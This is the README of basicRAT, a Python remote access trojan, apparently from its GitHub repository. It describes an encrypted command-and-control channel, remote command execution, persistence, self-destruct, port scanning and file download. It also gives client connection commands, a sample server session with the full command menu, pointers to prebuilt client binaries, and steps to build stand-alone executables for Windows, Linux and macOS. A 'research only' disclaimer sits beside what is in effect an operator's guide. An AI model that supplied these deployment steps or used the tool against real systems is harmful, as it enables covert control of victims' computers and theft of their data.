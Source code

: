 # RAT

This is a cross-platform Python 2.7.x Remote Access Trojan (RAT). Currently still a work in progress, and gets hacked on as time allows. See the `binaries/` folder for prebuilt client executables.

**Disclaimer: This RAT is for research purposes only, and should only be used on authorized systems. Accessing a computer system or network without authorization or explicit permission is illegal.**

## Features
* Cross-platform (Windows, Linux, and macOS)
* AES-256 encrypted C2 with D-H exchange
* Accepts connection from multiple clients
* Command execution
* Standard utilities (cat, ls, pwd, unzip, wget)
* System survey
* Self-destruct
* Primitive port scanning
* Client reconnect

## Usage

### Client
```
C:\>client.exe --ip 127.0.0.1 --port 1337 --timeout 30
```
Where `ip` is the basicRAT server IP address, `port` is the server listening port, and `timeout` is the number of seconds the client waits to attempt a reconnect to the server (if disconnected). These are the default values if not specified, you will likely need to supply at least an IP and port if using basicRAT outside of your local system.

### Server
```
$ python server.py --port 1337

 ____    ____  ______      .  ,
|    \  /    ||      |    (\;/)
|  D  )|  o  ||      |   oo   \//,        _
|    / |     ||_|  |_| ,/_;~      \,     / '
|    \ |  _  |  |  |   "'    (  (   \    !
|  .  \|  |  |  |  |         //  \   |__.'
|__|\_||__|__|  |__|       '~  '~----''
         https://github.com/harshivara/RAT

basicRAT server listening for connections on port 1337.

[?] basicRAT> help
Command             | Description
---------------------------------------------------------------------------
cat <file>          | Output a file to the screen.
client <id>         | Connect to a client.
clients             | List connected clients.
execute <command>   | Execute a command on the target.
goodbye             | Exit the server and selfdestruct all clients.
help                | Show this help menu.
kill                | Kill the client connection.
ls                  | List files in the current directory.
persistence         | Apply persistence mechanism.
pwd                 | Get the present working directory.
quit                | Exit the server and keep all clients alive.
scan <ip>           | Scan top 25 TCP ports on a single host.
selfdestruct        | Remove all traces of the RAT from the target system.
survey              | Run a system survey.
unzip <file>        | Unzip a file.
wget <url>          | Download a file from the web.

[?] basicRAT> clients
ID | Client Address
-------------------
 1 | 127.0.0.1

[?] basicRAT> client 1
Client 1 selected.

[1] basicRAT> execute uname -a
Running execute...
Linux sandbox3 4.9.17-c9 #1 SMP Thu Mar 23 01:38:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
execute completed.
```

## Build your own stand-alone executable
If you'd rather not use one the prebuilt binaries, you can easily create your own executable like so:

On Windows you will need:
  * [Python 2.7.x](https://www.python.org/downloads/)
  * [PyInstaller](http://www.pyinstaller.org/)
  * [PyCrypto 2.6 for Python 2.7](http://www.voidspace.org.uk/python/modules.shtml#pycrypto)
  * [PyWin32](https://sourceforge.net/projects/pywin32/files/pywin32/)
  * [pefile](https://github.com/erocarrera/pefile)

Then run something like `C:\path\to\PyInstaller-3.2\PyInstaller-3.2\pyinstaller.py --onefile basicRAT_client.py` from the basicRAT repo folder and it should generate a `dist/` folder that will contain a stand-alone PE (portable executable).

On Linux/macOS you will need:
  * [Python 2.7.x](https://www.python.org/downloads/)
  * PyInstaller & PyCrypto - `$ pip install pyinstaller pycrypto`

Then run something like `pyinstaller --onefile basicRAT_client.py` from the basicRAT repo folder and it should generate a `dist/` folder that will contain a stand-alone ELF/Mach-O executable.

## Contributors
* Austin Jackson [@vesche](https://github.com/vesche)
* Skyler Curtis [@deadPix3l](https://github.com/deadPix3l)
* [@reznok](https://github.com/reznok), multiple client connection prototype

## Other open-source Python RATs for Reference
* [nathanlopez/Stitch](https://github.com/nathanlopez/Stitch)
* [n1nj4sec/pupy](https://github.com/n1nj4sec/pupy)
* [sweetsoftware/Ares](https://github.com/sweetsoftware/Ares)
* [ahhh/Reverse_DNS_Shell](https://github.com/ahhh/Reverse_DNS_Shell)
